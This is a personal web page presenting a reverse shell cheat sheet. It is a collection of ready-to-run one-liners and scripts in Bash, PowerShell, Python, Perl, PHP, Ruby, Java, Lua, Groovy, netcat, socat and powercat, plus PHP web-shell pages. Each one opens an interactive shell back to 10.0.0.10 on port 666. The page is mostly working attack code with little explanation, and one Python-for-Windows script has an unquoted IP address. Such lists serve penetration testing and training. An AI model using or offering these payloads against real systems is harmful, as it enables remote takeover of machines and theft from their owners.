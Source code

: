 _[<-- Home](https://flast101.github.io)_

# Reverse Shell Cheat Sheet

You can find them all around the internet. 

* * * 
## One-liners

**Bash**


```
bash -i >& /dev/tcp/10.0.0.10/666 0>&1
```   

_or_    

```
0<&196;exec 196<>/dev/tcp/10.0.0.10/666; sh <&196 >&196 2>&196
```

_or_    

```
bash -c 'bash -i >& /dev/tcp/10.0.0.10/666 0>&1'
```

**PowerShell** 

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.10',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



**Python for Linux**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.10",666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
_or_
```
__import__("os").system("bash+-c+'bash+-i+>& /dev/tcp/10.0.0.10/666 0>&1'")
```


**Python for Windows**

```
exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.10",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```
_or_
```
python -c 'exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.10",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```


**Perl**

```perl
perl -e 'use Socket;$i="10.0.0.10";$p=666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


**PHP**

```php
php -r '$sock=fsockopen("10.0.0.10",666);exec("/bin/sh -i <&3 >&3 2>&3");'
```


**Ruby**

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.10",666).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


**Java**

```java
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.10/666;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

**Lua**

```lua
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('10.0.0.10',666);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();" 
```

**Telnet**

```
telnet localhost 443 | /bin/sh | telnet localhost 444
```


**Xterm**

```
xterm -display 10.0.0.10:1
```

* * * 


## PHP Web Pages

**Linux**
~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/666 0>&1'")?>
~~~

**Windows**

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.10',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

* * *

## Tools

**Netcat**

```
nc -e /bin/sh 10.0.0.10 666
```

**Netcat without -e**

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.10 666 > /tmp/f
```

**Socat**

```
user@ubuntu:~$ socat - TCP4:10.0.0.10:666 EXEC:'/bin/bash -li'
C:\> socat TCP4:10.0.0.10:666 EXEC:'cmd.exe'
```


**Powercat**

```
powercat -c 10.0.0.10 -p 666 -e cmd.exe
```

* * *
## Others

**Powershell**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.0.0.10',666);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```


**Python for Linux**

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.10",666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**Python for Windows**

```python
import os, socket, subprocess, threading, sys

def s2p(s, p):
    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()

def p2s(s, p):
    while True: s.send(p.stdout.read(1).encode())

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
while True:
    try: s.connect((10.0.0.10, 666)); break
    except: pass

p=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)

threading.Thread(target=s2p, args=[s,p], daemon=True).start()

threading.Thread(target=p2s, args=[s,p], daemon=True).start()

try: p.wait()
except: s.close(); sys.exit(0)

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

**Groovy**

```groovy
String host="10.0.0.10";
int port=666;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**PHP**

The very good Pentestmonkey [php reverse shell](https://github.com/flast101/reverse-shell-cheatsheet/blob/master/php-reverse-shell.php).


Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_


<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>



